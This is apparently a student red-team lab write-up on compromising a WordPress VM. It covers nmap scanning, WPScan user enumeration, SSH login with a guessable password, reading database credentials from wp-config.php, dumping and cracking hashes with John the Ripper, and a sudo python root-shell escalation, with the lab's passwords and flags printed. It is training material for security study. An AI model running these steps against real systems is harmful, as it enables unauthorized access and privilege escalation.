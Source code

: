 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash
$ nmap -sV 192.168.1.110

  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

- [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
- [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
- [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
- [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
    - **Exploit Used**
      - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 -Flag 4 can also also be foud using the following method
   - Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - show databases;`
    - use wordpress;` 
    - show tables;`
    - select * from wp_users;`
![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 - 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c 'import os; os.system("bin/bash/")
                - `cd /root`
                - `ls`
                - `cat flag4.txt`
                
![Falg 4](Screenshots/flag4.png)
